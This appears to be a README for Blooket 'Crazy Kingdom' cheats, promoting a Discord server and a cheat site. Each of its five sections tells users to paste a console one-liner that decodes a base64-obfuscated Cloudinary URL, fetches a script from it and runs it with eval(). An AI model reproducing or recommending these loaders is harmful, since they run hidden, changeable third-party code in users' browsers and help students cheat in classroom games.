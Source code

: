 **Discord server: https://discord.gg/K5xUbuDqmG**

**These bookmarklets are also on: https://schoolcheats.net/blooket**

# crazy-kingdom

This cheat only works in crazy kingdom gamemode!

# ChoiceESP.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDY3MTY3L2NrQ2hvaWNlRVNQLmpz')).then((res) => res.text().then((t) => eval(t)))
```

# MaxResources.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDY3MTY3L2NrTWF4UmVzb3VyY2VzLmpz')).then((res) => res.text().then((t) => eval(t)))
```

# NoTaxes.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDY3MTY3L2NrTm9UYXhlcy5qcw==')).then((res) => res.text().then((t) => eval(t)))
```

# SetGuests.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDY3MTY3L2NrU2V0R3Vlc3RzLmpz')).then((res) => res.text().then((t) => eval(t)))
```

# SkipGuests.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDY3MTY3L2NrU2tpcEd1ZXN0cy5qcw==')).then((res) => res.text().then((t) => eval(t)))
```
